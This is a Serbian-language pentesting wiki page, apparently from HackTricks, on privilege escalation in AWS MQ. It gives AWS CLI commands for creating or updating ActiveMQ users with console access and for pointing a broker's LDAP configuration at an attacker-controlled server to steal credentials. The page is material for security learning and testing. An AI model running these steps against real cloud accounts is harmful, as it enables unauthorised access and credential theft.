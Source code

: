 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

Za više informacija o MQ proverite:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

Sa tim dozvolama možete **napraviti novog korisnika u ActimeMQ brokeru** (ovo ne funkcioniše u RabbitMQ):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potencijalni uticaj:** Pristup osetljivim informacijama navigacijom kroz ActiveMQ

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

Sa tim dozvolama možete **napraviti novog korisnika u ActiveMQ brokeru** (ovo ne funkcioniše u RabbitMQ):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**Potencijalni uticaj:** Pristup osetljivim informacijama navigirajući kroz ActiveMQ

### `mq:ListBrokers`, `mq:UpdateBroker`

Ako broker koristi **LDAP** za autorizaciju sa **ActiveMQ**. Moguće je **promeniti** **konfiguraciju** LDAP servera koji se koristi na **onaj koji kontroliše napadač**. Na ovaj način napadač će moći da **ukrade sve kredencijale koji se šalju putem LDAP**.
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
Ako biste nekako mogli pronaći originalne akreditive korišćene od strane ActiveMQ, mogli biste izvesti MitM, ukrasti akreditive, koristiti ih na originalnom serveru i poslati odgovor (možda samo ponovo koristeći ukradene akreditive mogli biste to uraditi).

**Potencijalni uticaj:** Ukrasti ActiveMQ akreditive

{{#include ../../../banners/hacktricks-training.md}}
